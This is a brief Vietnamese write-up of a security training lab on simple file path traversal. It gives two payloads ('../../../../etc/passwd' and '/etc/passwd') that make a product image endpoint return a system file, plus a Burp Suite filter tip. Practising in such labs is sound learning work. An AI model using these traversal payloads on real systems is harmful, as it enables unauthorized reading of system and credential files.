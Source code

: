 # Lab: File path traversal, simple case
Bài thực hành này chứa lỗ hổng bảo mật đường dẫn trong việc hiển thị hình ảnh sản phẩm.

Để giải quyết bài thực hành, hãy truy xuất nội dung của tệp `/etc/passwd.`

Playload 1
```
../../../../etc/passwd
```
Playload 2
```
/etc/passwd
```
* Trong Filter settings của Burp Suite, chọn Show all để thấy toàn bộ ảnh, css ...  
<img src="./img/Screenshot 2025-07-23 at 22.40.11.png" width="400">
